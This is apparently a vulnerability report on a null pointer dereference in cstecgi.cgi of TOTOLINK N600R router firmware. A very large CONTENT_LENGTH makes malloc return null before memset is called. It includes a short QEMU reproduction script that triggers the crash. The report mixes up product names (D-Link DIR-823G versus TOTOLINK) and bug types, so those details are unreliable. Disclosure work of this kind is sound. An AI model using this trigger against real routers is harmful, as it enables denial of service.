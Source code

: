 # Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the D-Link TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code path within the `main` function of cstecgi.cgi extracts the `CONTENT_LENGTH` environment variable by `getenv` and passes it as the size parameter of `malloc`. However, when the `CONTENT_LENGTH` is set as a large size, the `malloc` would return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.
![alt text](image-2.png)

## poc

We set a breakpoint before the function call `memset` at line 84. By dumping the registers, we can see that `v11` is null and `v10` is a positive value. By tracing the execution, we find a null pointer dereference occurs.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./CONTENT_LENGTH_MAX.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### CONTENT_LENGTH_MAX.sh
```bash
chroot ./ ./qemu-mips-static\
        -E CONTENT_LENGTH="2147483646" \
        -g 123 -L ./lib \
        ./web_cste/cgi-bin/cstecgi.cgi < null.json
```
### null.json
```json
{
    
}
```
